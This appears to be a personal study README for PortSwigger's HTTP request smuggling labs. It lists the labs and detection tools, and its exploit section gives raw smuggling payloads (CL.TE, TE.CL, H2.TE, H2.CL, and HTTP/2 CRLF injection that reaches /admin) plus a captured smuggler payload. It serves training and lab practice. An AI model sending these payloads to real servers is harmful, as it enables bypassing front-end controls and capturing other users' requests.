


# [HTTP Request smuggling](https://portswigger.net/web-security/request-smuggling)

## Labs

- practitioner:
  - [1. HTTP request smuggling, basic CL.TE vulnerability](./lab/1.%20HTTP%20request%20smuggling%2C%20basic%20CL.TE%20vulnerability.md)
  - [2. HTTP request smuggling, basic TE.CL vulnerability2. HTTP request smuggling, basic TE.CL vulnerability](./lab/2.%20HTTP%20request%20smuggling%2C%20basic%20TE.CL%20vulnerability.md)
  - [3. HTTP request smuggling, obfuscating the TE header](./lab/3.%20HTTP%20request%20smuggling%2C%20obfuscating%20the%20TE%20header.md)
  - [4. HTTP request smuggling, confirming a CL.TE vulnerability via differential responses](./lab/4.%20HTTP%20request%20smuggling%2C%20confirming%20a%20CL.TE%20vulnerability%20via%20differential%20responses.md)
  - [5. HTTP request smuggling, confirming a TE.CL vulnerability via differential responses](./lab/5.%20HTTP%20request%20smuggling%2C%20confirming%20a%20TE.CL%20vulnerability%20via%20differential%20responses.md)
  - [6. Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](./lab/6.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20CL.TE%20vulnerability.md)
  - [7. Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](./lab/7.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20TE.CL%20vulnerability.md)
  - [8. Exploiting HTTP request smuggling to reveal front-end request rewriting](./lab/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting.md)
  - [9. Exploiting HTTP request smuggling to capture other users' requests](./lab/9.%20Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests.md)
  - [10. Exploiting HTTP request smuggling to deliver reflected XSS](./lab/10.%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS.md)
  - [11. Response queue poisoning via H2.TE request smuggling](./lab/11.%20Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling.md)
  - [12. H2.CL request smuggling](./lab/12.%20H2.CL%20request%20smuggling.md)
  - [13. HTTP/2 request smuggling via CRLF injection](./lab/13.%20HTTP2%20request%20smuggling%20via%20CRLF%20injection.md)
  - [14. HTTP/2 request splitting via CRLF injection](./lab/14.%20HTTP2%20request%20splitting%20via%20CRLF%20injection.md)

## Detect

1. burpsuite active scan

    - can detect smuggling but not in detail

2. burpsuite `HTTP request smuggler` extension (best)

    

3. smuggler.py (can't detect HTTP/2):

    - <https://github.com/defparam/smuggler>
    - usage:

        ```bash
        python smuggler.py -u <url>
        ```

## Exploit

1. CL.TE

    - don't need to disable `Update Content-Length`
    - simple payload:

    ```http
    POST /post/comment HTTP/1.1^M$
    Content-Length: 6^M$
    Transfer-Encoding: chunked^M$
    ^M$
    0^M$
    ^M$
    G
    ```

2. TE.CL

    - disable `Update Content-Length`
    - simple payload:

    ```http
    POST / HTTP/1.1^M$
    Content-Length: 4^M$
    Transfer-Encoding: chunked^M$
    ^M$
    29^M$
    GPOST / HTTP/1.1^M$
    Content-Length: 20^M$
    ^M$
    a^M$
    0^M$
    ^M$
    ```

    ```text
    4 = len(29^M$)
    29 = len(GPOST / HTTP/1.1^M$
            Content-Length: 20^M$
            ^M$
            a)
    ```

3. H2.TE (frontend failed to delete TE header)
    - payload:

    ```http
    POST / HTTP/2^M$
    Host: id.web-security-academy.net^M$
    Content-Type: application/x-www-form-urlencoded^M$
    Transfer-Encoding: chunked^M$
    ^M$
    0^M$
    ^M$
    GET /notfoundforsure HTTP/1.1^M$
    Host: id.web-security-academy.net^M$
    ^M$
    ```

4. H2.CL (frontend failed to delete CL header)

    ```http
    POST / HTTP/2^M$
    Host: id.web-security-academy.net^M$
    Content-Type: application/x-www-form-urlencoded^M$
    Content-Length: 0^M$
    ^M$
    smuggled
    ```

5. CRLF injection (\r\n in http2 header is downgraded to http1 as special characters)

    |     |     |
    | --- | --- |
    | :method | GET |
    | :path | /   |
    | :authority | vulnerable-website.com |
    | foo | bar\\r\\n<br />\\r\\n<br />GET /admin HTTP/1.1\\r\\n<br />Host: vulnerable-website.com |

## Working with HTTP/2 in burpsuite

disable `Update Content-Length` and enable `Allow HTTP/2 ALPN override`


modify HTTP/2 headers in inspector tab



## Display non-prinable characters

```bash
┌──(kali㉿kali)-[~/Documents/tools]
└─$ cat -A /home/kali/Documents/tools/smuggler/payloads/https_0a9100fd04b3a953c1fd085f00a80097_web-security-academy_net_CLTE_tabprefix1.txt   
POST /?cb=3129548901991752 HTTP/1.1^M$
Transfer-Encoding:^Ichunked^M$
Host: 0a9100fd04b3a953c1fd085f00a80097.web-security-academy.net^M$
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.87 Safari/537.36^M$
Content-type: application/x-www-form-urlencoded; charset=UTF-8^M$
Content-Length: 4^M$
Cookie:  session=3ivuxocrmoimvgwds4dokbbkrmhsfqtk;^M$
^M$
1^M$
Z^M$
0^M$
^M$
```
